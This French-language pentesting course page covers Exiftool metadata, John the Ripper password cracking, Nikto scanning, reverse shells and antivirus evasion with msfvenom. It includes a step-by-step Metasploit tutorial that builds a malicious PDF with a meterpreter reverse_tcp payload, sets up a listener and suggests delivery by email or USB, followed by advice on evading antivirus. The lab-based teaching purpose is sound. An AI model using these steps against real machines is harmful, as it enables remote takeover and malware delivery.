




Exiftool
Cours
Qu’est ce qu’Exiftool ?
Exiftool est un outil en ligne de commande pour lire, écrire et éditer les métadonnées de différents types de fichiers différents.
Qu’est ce les Métadonnées ?
Lorsque vous prenez une photo avec votre smartphone, vous pouvez la retrouver et la visioner dans votre gallerie d’images dès que vous voulez. Votre smartphone ne prend cependant pas uniquement une capture de l’instant. En effet, ce dernier capture la date et l’heure précise à laquelle vous appuyez sur le bouton pour prendre votre photo, ajoute à cela la taille de résolution de l’image, la position gps, et plein d’autres informations supplémentaires qui sont ajoutées à l’image. Toutes ces informations sont appelées les métadonnées.
Pourquoi les Métadonnées sont importantes dans le monde de la cybersécurité ?
Lorsque vous envoyez une image à un proche, vous l’envoyez avec toutes ses Métadonnées. Si l’image d’origine est interceptée ou dérobée par une personne malveillante, cette dernière pourra lire les métadonnées de l’image. Ayant précisé juste avant que l’image pouvait contenir des coordonnées GPS exactes, vous pouvez imaginer ce qu’une personne malveillante peut faire. Le modèle d’appareil qui a pris la photo peut aussi être identifié, ce qui peut être utile dans la phase de reconnaissance pour une future exploitation de failles, en connaissant le modèle de l’appareil à infecter la tâche s’annonce tout de suite plus simple pour un attaquant. Ainsi, même si l’image n’est pas compromettante en elle même, elle peut le devenir par ses métadonnées.
Détails compatibilité
Vous pouvez retrouver tous les types de fichiers compatibles avec exiftool sur le site officiel : exiftool.org
Challenge
Trouver le pseudo de l’artiste de l’image suivante :

Source image :
L’image a été trouvée sur le site : freepng.com puis les métadonnées ont été modifiées pour ce challenge.
John the Ripper
Cours
A quoi sert John ?
L’outil John va nous être très utile pour le cracking de mot de passe. En effet, si un attaquant parvient d’une manière ou d’une autre à récupérer une base de donnée d’un site contenant les identifiants et mots de passe des utilisateurs, la grande majorité du temps, ce dernier ne pourra pas lire le mot de passe directement. En effet, une sécurité a été ajoutée pour stocker les mots de passe au cas où ce genre de situation arriverait.
Sans entrer dans les détails, les mots de passe sont stockés sous forme de hash, ce qui correspond à passer le mot de passe de l’utilisateur dans une fonction complexe à sens unique. Ce qui signifie que même avec un hash, il est impossible de récupérer directement le mot de passe en clair. Lors de la connexion le hash entré et le hash stocké sont comparés pour voir si ce sont les mêmes.
Cependant il n’est pas impossible de trouver un mot de passe à partir du hash.
John nous permet d’effectuer une attaque brute force simple, ou par dictionnaire lorsque nous avons un ou plusieurs hashes à disposition.
Comment lancer l’attaque brute force avec John ?
Imaginons un fichier mdp.hashes contenant le hash d’une session. Le fichier pourrait contenir une ligne comme suit :
jeremy:$1$XT.ZwPx4$LpAfbyGhDRZ3QSxdCzUqD/:19123:0:99999:7:::
où
$1$XT.ZwPx4$LpAfbyGhDRZ3QSxdCzUqD/
correspond au hash du mot de passe de connexion.
Ainsi john pourra nous être utile à casser le mot de passe par une attaque par dictionnaire en tapant la commande suivante :
john -w=liste.txt mdp.hashes
Ainsi cette ligne demande à john de calculer tous les hash des mots contenus dans liste.txt et de le comparer au hash de la session. Si les deux hashes sont les mêmes, alors le mot de passe est trouvé et John s’arrête.
Entrainement et mise en situation réelle
Pour voir si vous avez bien compris le cours, je vous propose de vous entrainer sur un docker que j’ai créé spécialement pour cela.
Que devez-vous faire ?
Il vous faut docker installé (il existe tout un tas de tutoriels qui vous expliquerons comment le télécharger) quand docker et docker-compose sont installés sur votre machine, nous pouvons passer à la suite :
Il vous faut télécharger le fichier docker-compose.yml
Ensuite, il vous restera quelques commandes à connaître :
docker-compose up -d
docker exec -it martin /bin/bash
docker exec -it john /bin/bash
La première commande vous permet de créer les deux machines dont vous aurez besoin. La machine de martin correspond à la machine victime et la machine john à celle de l’attaque qui possède l’outil john installé dessus.
Objectifs
Situation
Martin veut mettre sa machine à jour avec apt-get update, mais pour cela il doit être root sur sa machine. Malheureusement il ne connait pas son mot de passe administrateur car c’est son ami Jeremy qui a configuré sa machine ! Ce dernier ne se souvient plus du tout du mot de passe non plus :( Arriverez-vous à trouver le mot de passe administrateur de cette machine pour la mettre à jour ?
Que faire ?
Récupérer les mots de passe hachés de session
Cracker le hash avec John d’une session susceptible d’avoir les accès root
Connectez vous avec la session dont vous avez trouvé le mot de passe
Tapez la commande
apt-get update
Si la machine est à jour vous avez accompli votre mission. Félicitations
Vidéo de résolution
Nikto
Cours
Qu’est ce que Nikto ?
Nikto est une application open source créée en 2001 qui permet de scanner des serveurs web. Il permettra de donner des informations sur de potentielle vulnérabilités par exemple.
Que peut-il nous donner comme informations ?
Nikto est capable de :
trouver des injections SQL,XSS et autres types de vulnérabilité.
Deviner des sous-domaines
Sauvegarder des rapport dans des fichier HTML,CSV ou XML
Identifier les logiciels installés
Exporter vers Metasploit
Deviner des identifiants/mot de passe faciles à trouver
Comment télécharger Nikto ?
Comme beaucoup d’outils de pentesting, Nikto est présent par défaut sur Kali Linux.
Si vous avez une autre distribution Linux (debian) vous pourrez l’installer par la commande apt-get install nikto. Sinon, vous pouvez vous rendre sur Github : https://github.com/sullo/nikto
Comment utiliser Nikto ?
Pour voir toutes les possibilités et commandes de nikto, la première commande à taper est :
nikto -Help.
Vous verrez tout un tas d’options expliquées par la suite. La plus simple et la plus utilisée sera la commande :
nikto -h <target> en remplaçant la target par une adresse ip ou un nom de domaine.
D’autres options complémentaires pourront s’ajouter à cette commande telles que : -id qui servira à renseigner une combinaison identifiant:motdepasse pour se connecter sur la cible, ou encore -mutate pour découvrir de nouveaux fichiers ou dossiers cachés.
Si l’on veut scanner un domaine en https, il faudra ajouter le tag -ssl pour scanner le port 443.
Il est aussi possible de scanner plusieurs adresses IP en même temps. Par exemple en les mettant dans un fichier texte et en tapant la commande : nikto -h adresses.txt
Challenge
Objectif du challenge :
trouver le numéro OSVDB de la potentielle vulnérabilité de la machine docker déployée.
Que faut-il faire ?
Récupérer les machines :
Télécharger le fichier docker-compose.yml
Déployer et utiliser les machines :
docker-compose up -d
docker exec -it nikto_machine /bin/bash
Analyser la machine avec nikto et lire le numéro OSVDB de la vulnérabilité trouvée.
Reverse Shell
Cours
Avant de parler de reverse shell, il faudrait tout d’abord rappeler ce qu’est un shell. Un shell est une couche logicielle qui fournit l’interface utilisateur du système d’exploitation. ( wikipedia ) Différents shells existent : CMD, sh, bash, Powershell,…
Une autre notion avant de comprendre ce qu’est un reverse shell est qu’est-ce qu’un port ? Un port informatique du point de vue logiciel est un système permettant aux ordinateurs de recevoir ou d’émettre des informations. ( wikipedia )
Qu’est ce qu’un reverse shell ?
Pour dire ça simplement, c’est lorsqu’un ordinateur se connecte à un autre ordinateur mais que l’ordinateur initiateur transmet son shell à la destination. Ainsi, ce type d’attaque donne à l’attaquant un shell interactif sur une machine.
Comment cela fonctionne-t-il ?
Vous n’êtes pas sans savoir que votre routeur vous protège d’un grand nombre de menaces qui pourraient venir de l’extérieur grâce à un firewall. En effet ce dernier n’accepte que des requêtes vers le port 80 et 443 de l’extérieur pour le http et le https. Toutes les autres sont bloquées. Cependant, toutes les requêtes et connexions sortantes sont autorisées sur n’importe quel port car l’ordinateur du réseau est considéré comme une machine de confiance. Cela permet à un attaquant de passer outre le firewall mit en place par le routeur.
L’attaque commence avec une machine qui écoute sur un port (il s’agit de la machine de l’attaquant). Ensuite, la machine victime exécutera une commande qui la connectera à la machine attaquante et lui transmettra sa session.
Peut-être vous demanderez vous pourquoi la machine victime voudrait à un moment donné exécuter cette commande… Cela peut être utile dans le domaine professionnel ou personnel si vous avez un ordinateur distant que vous voulez utiliser pour telle ou telle raison depuis un autre ordinateur, cela est possible. Dans le cas d’une attaque la commande pourra s’exécuter suite au téléchargement d’un fichier exécutable ou d’un fichier pdf ouvert avec un visionneur de pdf qui n’a pas été mis à jour.
Et dans la pratique… Comment on fait ? (Metasploit)
Pour commencer, un attaquant va créer ou télécharger un payload qu’il pourra envoyer à sa victime. Un payload est un fichier qui va exécuter du code malveillant, et dans notre cas ouvrir une connexion entre l’attaquant et la victime.
Le module exploit/windows/fileformat/adobe_pdf_embedded_exe dans Metasploit nous permet de créer un payload pdf contenant un fichier exe dans son en-tête qui sera exécuté à l’ouverture du pdf. Il faudra configurer LHOST et LPORT comme l’adresse et le port de l’attaquant ou d’un serveur auquel les deux ordinateurs peuvent se connecter.
Une fois le payload préparé, il suffit de l’envoyer à la victime. Toutes les techniques sont possibles (email, lien, clé usb,…)
Désormais, il faut mettre en place le “listener” pour écouter et attendre une connexion sur le port spécifié dans LPORT lors de la création du payload.
Le module exploit/multi/handler fonctionne très bien. Il faut ensuite préparer l’écoute en faisant : set payload windows/meterpreter/reverse_tcp et en renseignant le LHOST et LPORT du payload pour dire à metasploit que nous avons un payload utilisant le protocole tcp et que nous allons ouvrir un meterpreter s’il y a une connexion d’une machine victime. Le meterpreter est un shell interactif qui permet à l’attaquant de faire un grand nombre de choses, upload/download de fichiers, stream de webcam, voir l’écran, créer des fichiers, ouvrir des pages web,…
Il faudra ensuite taper la commande exploit pour que la machine se mette sur écoute.
A partir de là, il suffit d’attendre que la victime ouvre le fichier malveillant qu’elle a téléchargé et l’attaquant aura un accès total à la machine.
Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf
Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : télécharger la Machine Virtuelle{:target= »_blank »}
Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande msfconsole pour démarrer métasploit.
Ensuite il faut chercher le payload.
Tapez search windows fileformat pdf. Vous aurez un résultat comme ci dessous :

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez use exploit/windows/fileformat/adobe_pdf_embedded_exe
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter.
Ainsi, tapons la commande : set payload windows/meterpreter/reverse_tcp
Pour voir les options actuelles du payload, tapez : show options

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez set LHOST x.x.x.x en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez set LPORT xxx en remplaçant xxx par le port de votre choix (par exemple, set LPORT 4444).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant set FILENAME xxxx.pdf en remplaçant xxxx par le nom que vous voulez donner.
Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.
ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande use exploit/multi/handler
puis set payload windows/meterpreter/reverse_tcp
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.
ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,… et tout autre technique imaginable.
ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle. Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela :

avec votre adresse et votre port que vous avez renseigné.
Si tout est prêt, ouvrez le pdf avec adobe reader 8 !

Enregistrez template.pdf s’il vous le demande.

Cliquez sur open.
Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez help pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !
Virus encoders
Msfvenom : est-il possible de tromper l’antivirus ?
msfvenom est un outil de création de payloads (charge utile en français).
Cet outil propose un grand nombre de personnalisations (encodage, chiffrement, taille maximale du fichier…,). En créant un payload, l’objectif principal d’un attaquant sera de prendre le contrôle d’une machine victime à distance, notamment à l’aide d’un reverse shell. Cependant, bon nombre d’anti-virus arrivent désormais à détecter et à bloquer le fonctionnement de ce genre de fichiers lorsqu’ils sont téléchargés.
Ainsi les pirates ont mis en place des techniques afin de rendre de moins en moins détectables ces fichiers. Pour commencer, ils ont pensé à chiffrer le payload avec une clef de chiffrement et créer un exécutable qui le déchiffre et l’exécuter ensuite sur la machine victime. Malheureusement, maintenant les antivirus détectent tous les programmes chiffrés comme malveillants (la signature du crypteur est détectée dans ce cas-là).
Une autre idée leur est venue, celle de l’encodage. Cela consiste, comme la technique de chiffrement, à mettre le payload sous une autre forme pour qu’il soit moins détectable, mais cette fois-ci sans utiliser de clef de chiffrement. L’encodeur le plus connu est shikata_ga_nai, il a une très bonne réputation, mais il a été beaucoup trop utilisé, donc les antivirus sont désormais capables de le détecter. En voyant que les antivirus détectent un fichier encodé, la possibilité d’encoder plusieurs fois de suite un même fichier a été trouvée, c’est-à-dire encoder avec un nombre d’itérations (5,10,15,…) le fichier. Cependant, encoder trop de fois le fichier pouvait mener à un mauvais fonctionnement de ce dernier. Les antivirus sont aujourd’hui là aussi capables de détecter un fichier, même encodé plusieurs fois avec un encodeur connu.
Ce qui est mis en cause ici est le procédé totalement automatique. En effet, toutes ces techniques pouvaient marcher il y a quelques années, mais marchent de moins en moins et aujourd’hui il est quasiment impossible de créer un virus indétectable des antivirus en un seul clic. Cela pourra fonctionner si la machine visée n’a pas d’antivirus installé (ce qui est très rare de nos jours) ou alors qu’elle est très ancienne avec un antivirus qui n’a pas été mis à jour depuis plusieurs années.
Aujourd’hui pour créer un virus qui ne devienne pas détectable des antivirus, il faut mettre les mains dans le cambouis ! La première technique serait de modifier le corps du programme avant qu’il ne soit compilé afin de le rendre unique. Cette technique fait toujours ses preuves et moitié moins d’antivirus détectent la menace.
Une autre technique serait de tenter de stopper l’antivirus lors de l’exécution du virus, ainsi il ne sera pas possible de détecter la menace.
Encoder soi-même le virus serait aussi une solution. Si nous n’utilisons pas un encodeur connu, le fichier deviendra difficilement détectable par un antivirus, car il ne l’aura jamais rencontré auparavant.
Une dernière solution pour passer outre les vérifications des antivirus serait de totalement coder un virus soi-même de bout en bout. Cette technique sera la plus complexe et la plus longue, mais sera certainement celle qui apportera le plus de résultats positifs. En effet, les antivirus ne pourront ni utiliser leur méthode de reconnaissance par signature, ni l’analyse statique, ni l’analyse heuristique qui sont les trois techniques de reconnaissances majoritairement utilisées par les meilleurs antivirus que l’on connaît actuellement.
Pour conclure, les méthodes de création d’antivirus en appuyant sur un bouton ne fonctionne quasiment plus aujourd’hui pour les antivirus les plus connus et les plus utilisés (Windows defender, Bitdefender, Avast, …) car ces derniers ont développé au cours des dernières années des techniques puissantes de reconnaissance de programmes malveillants. Ce genre de méthode pourrait néanmoins fonctionner sur des machines anciennes et non mises à jour depuis plusieurs années. Les méthodes de bypass d’antivirus nécessitent aujourd’hui de bonnes connaissances en informatique (en logiciel, en réseaux et en programmation) et un temps assez long de développement.
Ainsi, tromper un antivirus est possible et il faut rester vigilant, mais créer un virus qui tromperait des antivirus n’est pas donné à tout le monde.
Sources :
Vidéo YouTube qui présente très bien tous ces problèmes : voir la vidéo Youtube{:target= »_blank »}
Comment visionner les Métadonnées d’une image ?
Exiftool vous permet très facilement de lire ces métadonnées de vos photos :